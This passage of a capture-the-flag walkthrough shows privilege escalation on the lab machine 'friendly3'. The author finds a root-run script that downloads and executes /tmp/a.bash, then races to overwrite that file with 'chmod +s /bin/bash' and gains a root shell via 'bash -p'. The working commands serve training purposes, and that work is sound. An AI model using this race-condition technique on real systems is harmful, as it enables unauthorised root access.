 ## Privilage escalation

Once we're in as juan we see there is a one more user we have to probably escalate  before root, or maybe not xd.


```shell
juan@friendly3:~$ cat /etc/passwd | grep -E "bash|'sh'"
root:x:0:0:root:/root:/bin/bash
juan:x:1001:1001::/home/juan:/bin/bash
blue:x:1002:1002::/home/blue:/bin/bash
```



In _/opt_ we have the next script:
```shell
juan@friendly3:/tmp$ cd /opt
juan@friendly3:/opt$ ls
check_for_install.sh
```

```shell
-rwxr-xr-x  1 root root  190 Jun 25  2023 check_for_install.sh
juan@friendly3:/opt$ cat check_for_install.sh 
#!/bin/bash


/usr/bin/curl "http://127.0.0.1/9842734723948024.bash" > /tmp/a.bash

chmod +x /tmp/a.bash
chmod +r /tmp/a.bash
chmod +w /tmp/a.bash

/bin/bash /tmp/a.bash

rm -rf /tmp/a.bash
```
This script downloads a file from a web location, gives it execution, read, and write permissions, runs it as a Bash script, and then deletes the downloaded file.

In order to confirm that some user in the system is executing this script I install transfer pspy: 
![](/assets/img/Anexos/Máquina%20Friendly%203-7.png)



![](/assets/img/Anexos/Máquina%20Friendly%203-6.png)

Now, we can confirm that someone is running the script, we can try luck and supposes that the user blue is not running the script but root. So what we can do now is make a loop using bash in order to overwrite _a.bash_ in order write the command we want to be executed before the script be executed. 

```shell
while true; do echo "chmod +s /bin/bash" > /tmp/a.bash; done
```

Now we just wait and the as we supposed before, root is executing the program so /bin/bash will be SUID and we can be root by executing `bash -p`
```shell 
bash -p
bash-5.2# whoami
root
```